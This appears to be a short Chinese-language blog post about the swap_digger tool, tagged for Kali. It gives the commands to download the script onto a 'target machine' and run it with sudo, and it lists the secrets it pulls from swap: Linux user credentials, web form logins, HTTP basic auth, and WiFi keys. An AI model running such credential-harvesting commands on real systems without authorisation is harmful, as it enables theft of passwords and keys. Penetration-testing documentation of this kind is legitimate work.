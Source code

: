 ```yaml
---
title: swap_digger使用方法
date: 2024-01-13 20:29:36
tags: Kali
mathjax: true
---
```


# swap_digger使用方法

在目标机器上下载并运行：

```bash
wget https://raw.githubusercontent.com/sevagas/swap_digger/master/swap_digger.sh
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx -c
```

-v输出冗余信息 -x获取扩展凭证 -c自动删除生成的工作目录。

功能有：自动提取swap并搜索Linux用户凭证、Web表单凭证、Web表单电子邮件、HTTP基本认证、WiFi SSID和密钥等。
